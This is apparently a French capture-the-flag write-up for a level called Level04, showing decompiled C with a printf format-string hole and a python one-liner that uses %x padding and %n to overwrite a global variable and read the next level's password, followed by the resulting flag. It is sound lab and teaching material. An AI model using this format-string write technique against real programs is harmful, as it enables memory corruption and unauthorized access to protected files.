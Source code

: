 # Rapport CTF - [Level04]

### Observation :
En arrivant sur le level4 on trouve un exécutable nommé level4.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaîne de caractère puis se ferme, comme sur le level précédant. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (08048444) --------------------------------------------------------
int __cdecl p(char *format)
{
return printf(format);
}

//----- (08048457) --------------------------------------------------------
int n()
{
int result; // eax
char s[520]; // [esp+10h] [ebp-208h] BYREF

fgets(s, 512, stdin);
p(s);
result = m;
if ( m == 16930116 )
return system("/bin/cat /home/user/level5/.pass");
return result;
}
// 8049810: using guessed type int m;

//----- (080484A7) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
return n();
}
```
Ce level est pareil que le dernier a quelque petit détails:
- Le printf est dans une autre fonction.
- `m` dois maintenant être égal a `16930116`.


### Solution :
Le principe reste le même, mais il nous faut écrire plus d'adresse pour réussir à décaler plus la memoire, en l'occurrence `11` fois, ainsi que `16930116` octets suplémentaire. \
Le problème étant que nous ne pouvons écrire que 512 caractères, limite imposée par la fonction `fgets()` \
Pour régler ce problème nous allons demander à printf d'écrire beaucoup de caractères grace au `%x` il nous faut juste prendre notre chiffre de base `16930116` et le diviser par 11 `%x` et ajouter un dernier `%x` modulo de `16930116` - 4 pour notre adresse de `m`, puis le `%n` pour modifier la valeur à l'adresse mémoire voulue.

On fait la commande suivante pour obtenir le flag :
```sh
python -c "print ('\x08\x04\x98\x10'[::-1] + '%1539094.x ' * 10  + '%1539162.x'+ '%n')" | ./level4
```

### Resultat :
```sh
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
